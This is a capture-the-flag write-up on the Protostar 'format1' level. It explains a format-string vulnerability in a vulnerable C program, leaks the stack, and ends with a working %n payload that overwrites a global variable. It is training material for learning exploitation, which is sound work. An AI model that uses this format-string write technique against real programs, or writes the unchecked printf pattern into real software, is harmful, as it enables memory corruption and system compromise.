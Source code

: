 # Format 1

## Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);                                   // <- format string vulnerability
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

## Overview & Idea

- In this challenge `target` was initialized in global, so it's not located on stack. But we see that in `vuln` function, the program can be exploit by format string vulnerability. We'll use format string to make some change to `target`. And then if `target != 0` we can go into true branch of if statement :3. Let's do it!

## Detail

### Special Specifier

- `%n` is used for overwrite to content of specific address. To simplify, let's check this example:

```c
// This code means write to 0xbffffd49 with value is size of format (except %n), here is "%n", so size is 0 bytes.
printf("%n", 0xbffffd49);
// But we can use "%[number]x%n" to write number into address we passed as argument.
```
- I also write this example code that can make this easier to understand
```C
#include<stdio.h>

int main()
{
	int cookie = 0;
	printf("&cookie: %p\n", &cookie);

    // Print the 8 bytes start at cookie's address
	for ( int i = 0 ; i < 8 ; i++ )
	{
		printf("%d ", *(((unsigned char*)(&cookie)) + i) );
	}
	printf("\n");

	// Overwrite 12 to cookie (I passed 0 before &cookie to feed the %12x, if not, we must use %1$n to specify the argument we want)
	printf("%12x%n", 0, &cookie);
    // This code has the same functionality %1$n specify the index of argument which we'll use to pass for this specifier
    // It's necessary because if doesn't have 1$, specifier automatically uses next argument, which has index 2, and where's index 2? It's content of stack
    printf("%12x%1$n", &cookie); 

	// Check the cookie's value after use %n specifier
	printf("\ncookie = %x\n", cookie);

	// Print the 8 bytes start at cookie's address
	for ( int i = 0 ; i < 8 ; i++ )
	{
		printf("%d ", *(((unsigned char*)(&cookie)) + i) );
	}
	printf("\n");

	return 0;
}
```
- **Result**:
```
λ /mnt/c/users/whatd/Desktop/CTF/pwn/format_string/taose/ gcc -m32 -no-pie vuln.c -o vuln
λ /mnt/c/users/whatd/Desktop/CTF/pwn/format_string/taose/ ./vuln
&cookie: 0xffffd4a4
0 0 0 0 124 213 255 255
           0
cookie = c
12 0 0 0 4 0 0 0
```

- The different between `%n`, `%hn`, `%hhn` is `%n` affects to 4 bytes start at given address, while `%hn` affects 2 bytes and `%hhn` affects 1 byte.

- So we can use this technique to overwrite a value to specific address. Let's change the direction of program!

- First, we must know the address of buffer to find index on stack to implement overwrite on

```
root@protostar:/opt/protostar/bin# (python -c 'print("AAAABBBB"+".%x"*400)') | xargs ./format1
AAAABBBB.804960c.bffff818.8048469.b7fd8304.b7fd7ff4.bffff818.8048435.bffff9e8.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff898.b7eadc76.2.bffff8c4.bffff8d0.b7fe1848.bffff880.ffffffff.b7ffeff4.804824d.1.bffff880.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff898.c5af0e50.efe73840.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff8c4.8048450.8048440.b7ff1040.bffff8bc.b7fff8f8.2.bffff9de.bffff9e8.0.bffffea1.bffffeb5.bffffec5.bffffee7.bffffefa.bfffff04.bfffff18.bfffff5a.bfffff71.bfffff82.bfffff8a.bfffff95.bfffffa2.bfffffd8.bfffffe9.0.20.b7fe2414.21.b7fe2000.10.f8bfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.0.c.0.d.0.e.0.17.0.19.bffff9bb.1f.bffffff2.f.bffff9cb.0.0.0.0.44000000.a710c210.51979d2f.47c2a51a.698714fd.363836.0.0.0.2f2e0000.6d726f66.317461.41414141.42424242 ....
```

- After that, we leaked the stack and by some simple code python, I found the index is 129

- The address of target is 0x8049638

```
0x080483f4 <vuln+0>:    push   ebp
0x080483f5 <vuln+1>:    mov    ebp,esp
0x080483f7 <vuln+3>:    sub    esp,0x18
0x080483fa <vuln+6>:    mov    eax,DWORD PTR [ebp+0x8]
0x080483fd <vuln+9>:    mov    DWORD PTR [esp],eax
0x08048400 <vuln+12>:   call   0x8048320 <printf@plt>
0x08048405 <vuln+17>:   mov    eax,ds:0x8049638                <- address of target
---------------------------------------------------
0x0804840a <vuln+22>:   test   eax,eax                         <- condition's statement
---------------------------------------------------
0x0804840c <vuln+24>:   je     0x804841a <vuln+38>
0x0804840e <vuln+26>:   mov    DWORD PTR [esp],0x8048500
0x08048415 <vuln+33>:   call   0x8048330 <puts@plt>
0x0804841a <vuln+38>:   leave
0x0804841b <vuln+39>:   ret
```

## Exploit

- AAAABB is padding for align input purpose.
```
root@protostar:/opt/protostar/bin# (python -c 'print("AAAABB\x38\x96\x04\x08CC"+"%129$n")') | xargs ./format1
AAAABB8�CCyou have modified the target :)
```